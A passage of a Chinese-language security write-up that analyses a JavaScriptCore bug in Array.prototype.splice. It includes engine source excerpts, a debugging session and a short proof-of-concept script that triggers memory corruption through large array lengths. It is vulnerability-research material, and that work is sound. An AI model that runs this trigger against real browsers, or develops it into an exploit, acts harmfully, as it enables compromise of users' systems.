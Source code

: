         if (this->mayInterceptIndexedAccesses())
            return true;

        JSValue prototype = this->storedPrototype(base);//
        if (!prototype.isObject())
            return false;
        JSObject* object = asObject(prototype);

        while (true) {
            Structure& structure = *object->structure(vm);
            if (hasIndexedProperties(object->indexingType()) || structure.mayInterceptIndexedAccesses())
                return true;
            prototype = structure.storedPrototype(object);
            if (!prototype.isObject())
                return false;
            object = asObject(prototype);

#### poc 分析

    function main() {
        let arr = [1];

        arr.length = 0x100000;
        arr.splice(0, 0x11);

        arr.length = 0xfffffff0;
        arr.splice(0xfffffff0, 0, 1);
    }

    main();

`lokihardt` 给出了poc

    ./jsc
    >>> a=[1]
    1
    >>> describe(a)
    Object: 0x7fffaf6b4340 with butterfly 0x7fe0000e4008 (Structure 0x7fffaf6f2a00:[Array, {}, ArrayWithInt32, Proto:0x7fffaf6c80a0, Leaf]), StructureID: 97
    >>> a.length=0x100000
    1048576
    >>> describe(a)
    Object: 0x7fffaf6b4340 with butterfly 0x7fe0000f8448 (Structure 0x7fffaf6f2b50:[Array, {}, ArrayWithArrayStorage, Proto:0x7fffaf6c80a0, Leaf]), StructureID: 100
    >>> a.splice(0,0x11)
    1,,,,,,,,,,,,,,,,

首先创建了一个 `ArrayWithInt32` 类型的array, length 改成`0x100000`
之后会转换成`ArrayWithArrayStorage`, 然后调用 `splice`
函数，实现在`Source/JavaScriptCore/runtime/ArrayPrototype.cpp:1005`
的`arrayProtoFuncSplice` 函数

splice 用来删除修改array, 如 `a.splice(0, 0x11)`, 就表示从`index=0`
开始删除0x11 项， 第三个参数表示要替换的内容， 如`a.splice(0,0x11,1,1)`
表示删除 0x11 个项，然后添加两个项，内容都是1,
也可以这`a.splice(0,1,1,2,3)`
要添加的项比删除多的时候会重新分配内存。我们看一下函数具体是怎么样实现的，
这里用poc 的 `a.length=0x100000; a.splice(0,0x11)` 为例
